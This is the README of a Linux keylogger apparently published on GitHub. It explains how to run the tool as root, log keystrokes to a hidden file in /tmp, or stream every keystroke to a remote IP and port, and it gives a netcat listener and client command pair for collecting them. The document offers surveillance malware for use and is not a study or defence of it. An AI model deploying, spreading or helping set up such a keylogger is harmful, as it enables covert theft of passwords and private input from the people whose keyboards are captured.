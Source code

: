 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>: if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:  it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE<br>
Server$ nc lvp 8888 > logger.txt<br><br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>
__________________________________________________________________________
<br>(Keys are mapped on English keyboard)
